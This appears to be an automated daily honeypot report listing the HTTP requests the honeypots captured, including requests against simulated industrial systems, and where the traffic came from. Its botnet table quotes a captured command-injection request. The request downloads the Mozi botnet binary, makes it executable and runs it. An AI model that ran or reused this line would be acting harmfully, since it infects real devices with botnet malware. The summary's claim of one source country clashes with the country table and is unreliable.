 ```yaml
---
title: "Report: 2025-05-13 "
date: 2025-05-13
desciption: "Report: 2025-05-13" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-13 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1245 requests were recorded during the day, originating from 1 different countries, with a peak of 242 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                               |
|:----------------|:----------------------------------------------------------------------------------------------------------------------|
| 103.207.124.254 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                      |
|----:|----------------------:|:-----------------------------------------------------------------------------|
| 167 |                     1 | GET /files.rar HTTP/1.1                                                      |
| 202 |                     1 | GET /env/env.cgi HTTP/1.1                                                    |
| 223 |                     1 | \x00\x0E8t4\xD7k>\x88~\xAD\x00\x00\x00\x00\x00                               |
| 242 |                     1 | GET /config/index?time=1747133109780856254 HTTP/1.1                          |
| 243 |                     1 | GET /api/bin/440393?time=1747133300821757660 HTTP/1.1                        |
| 244 |                     1 | POST /api/user/binLookup?time=1747133302043456588 HTTP/1.1                   |
| 274 |                     1 | \x00\x0E8\xC8)r}8\x94)\x18\x00\x00\x00\x00\x00                               |
| 282 |                     1 | \x03\x00\x00\x13\x0E\xE0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00 |
| 293 |                     1 | GET /cgi-bin/main-cgi HTTP/1.1                                               |
| 295 |                     1 | \x00\x0E8\xE0SF\xCE\xAB\xAE[\xC3\x00\x00\x00\x00\x00                         |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   242 | GB                 |
|  1 |                   224 | BG                 |
|  2 |                   209 | US                 |
|  3 |                   137 | CN                 |
|  4 |                    70 | SC                 |
|  5 |                    63 | PL                 |
|  6 |                    58 | DE                 |
|  7 |                    35 | NL                 |
|  8 |                    31 | IN                 |
|  9 |                    17 | LT                 |
| 10 |                    15 | KR                 |
| 11 |                    14 | RU                 |
| 12 |                    14 | UA                 |
| 13 |                    13 | CA                 |
| 14 |                    12 | PT                 |
| 15 |                    12 | ZA                 |
| 16 |                    12 | AZ                 |
| 17 |                     9 | JP                 |
| 18 |                     7 | GH                 |
| 19 |                     4 | LA                 |
| 20 |                     4 | ID                 |
| 21 |                     4 | ES                 |
| 22 |                     4 | TR                 |
| 23 |                     3 | BE                 |
| 24 |                     3 | AO                 |
| 25 |                     3 | PH                 |
| 26 |                     3 | FR                 |
| 27 |                     3 | SG                 |
| 28 |                     2 | MC                 |
| 29 |                     2 | SE                 |
| 30 |                     2 | IR                 |
| 31 |                     2 | IT                 |
| 32 |                     2 | EE                 |
| 33 |                     2 | VE                 |
| 34 |                     2 | BR                 |
| 35 |                     2 | CH                 |
| 36 |                     1 | EG                 |
| 37 |                     1 | HK                 |
| 38 |                     1 | LK                 |
| 39 |                     1 | CZ                 |
